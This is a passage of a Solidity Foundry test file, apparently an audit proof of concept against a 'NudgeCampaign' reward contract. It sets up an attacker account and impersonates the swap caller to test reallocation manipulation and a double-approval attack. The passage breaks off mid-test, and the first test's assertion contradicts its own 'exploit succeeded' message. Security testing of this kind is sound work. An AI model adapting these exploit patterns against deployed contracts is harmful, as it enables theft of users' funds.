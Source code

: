 ```solidity
    // Deploy campaign via factory
    address deployedCampaign = factory.deployCampaign(
      86_400, // holding period
      address(token), // target token address
      address(token), // reward token address
      1e15, // rewardPPQ (1:1 ratio for simplicity)
      admin, // campaign admin
      0, // immediate start
      address(0), // alternative withdrawal address
      1 // uuid
    );

    // Cast deployed campaign to NudgeCampaign
    campaign = NudgeCampaign(payable(deployedCampaign));

    // Fund the campaign with reward tokens
    token.transfer(address(campaign), 10_000 ether);

    // Give attacker tokens
    token.transfer(attacker, 500 ether);
  }

  function test_RewardManipulationExploit() public {
    uint256 intendedAmount = 100 ether;

    // Attacker approves tokens to campaign
    vm.startPrank(attacker);
    token.approve(swapCaller, 500 ether);
    vm.stopPrank();

    // Impersonate swapCaller (required for handleReallocation)
    vm.startPrank(swapCaller);

    // Simulate the exploit: Campaign transfers excessive attacker balance
    token.transferFrom(attacker, swapCaller, intendedAmount);

    token.approve(address(campaign), intendedAmount);

    campaign.handleReallocation(1, attacker, address(token), intendedAmount, "");
    vm.stopPrank();

    // Verify the exploit outcome (campaign took exactly intendedAmount)
    uint256 totalReallocated = campaign.totalReallocatedAmount();
    assertEq(totalReallocated, intendedAmount, "Exploit succeeded: Campaign accepted extra tokens!");
  }

  function test_DoubleApprovalAttack() public {
    // Define intended amount and double amount for the exploit
    uint256 intendedAmount = 100 ether;
    uint256 doubleAmount = 200 ether;

    // Attacker approves swapCaller to spend double the intended amount
    vm.startPrank(attacker);
    token.approve(swapCaller, doubleAmount);
    vm.stopPrank();

    // Impersonate the swapCaller to perform the token transfer
    vm.startPrank(swapCaller);

    // Transfer the double amount from attacker to swapCaller
    token.transferFrom(attacker, swapCaller, doubleAmount);

```